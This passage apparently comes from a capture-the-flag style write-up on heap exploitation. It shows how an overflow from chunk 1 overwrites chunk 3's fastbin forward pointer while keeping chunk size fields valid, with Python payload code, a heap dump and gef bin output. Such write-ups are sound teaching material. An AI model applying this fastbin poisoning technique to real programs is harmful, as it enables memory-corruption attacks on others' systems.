 Using the heap overflow with chunk 1 it would take 96 bytes (0x55bf3bdb1070-0x55bf3bdb1010) to overwrite the FD in chunk 3. However if we just write NULLs up until overwriting chunk 3 FD then both chunk 2 and chunk 3 will be corrupt as they will no longer have a valid chunk size.

With the payload below set as chunk 1's data we can preserve chunk 2 and chunk 3's size.
```python=
payload = b""
payload += p64(0)*5
payload += p64(0x31)
payload += p64(0)*5
payload += p64(0x31)
```

The next 8 bytes will overwrite chunk 3's FD.
```python=
payload = b""
payload += p64(0)*5
payload += p64(0x31)
payload += p64(0)*5
payload += p64(0x31)
payload += p64(0x41414141) # overwriting chunk3 fd
```

The heap layout now looks like:
```
0x564e855c2000: 0x0000000000000000      0x0000000000000031    <--- Chunk 1
0x564e855c2010: 0x0000000000000000      0x0000000000000000
0x564e855c2020: 0x0000000000000000      0x0000000000000000
0x564e855c2030: 0x0000000000000000      0x0000000000000031    <--- Chunk 2
0x564e855c2040: 0x0000000000000000      0x0000000000000000
0x564e855c2050: 0x0000000000000000      0x0000000000000000
0x564e855c2060: 0x0000000000000000      0x0000000000000031    <--- Chunk 3
0x564e855c2070: 0x0000000041414141      0x0000000000000000       |- Chunk 3's new FD
0x564e855c2080: 0x0000000000000000      0x0000000000000000
0x564e855c2090: 0x0000000000000000      0x0000000000020f71    <--- top chunk/wilderness
0x564e855c20a0: 0x0000000000000000      0x0000000000000000
0x564e855c20b0: 0x0000000000000000      0x0000000000000000
0x564e855c20c0: 0x0000000000000000      0x0000000000000000
0x564e855c20d0: 0x0000000000000000      0x0000000000000000
0x564e855c20e0: 0x0000000000000000      0x0000000000000000
0x564e855c20f0: 0x0000000000000000      0x0000000000000000
```
And using gef's `heap bins`:
```
── Fastbins for arena 0x7f1680768b20 ────────────────────────────────────────────────────────────────────────────────────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30]  ←  Chunk(addr=0x564e855c2070, size=0x30, flags=PREV_INUSE)  ←  [Corrupted chunk at 0x41414151]
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
```
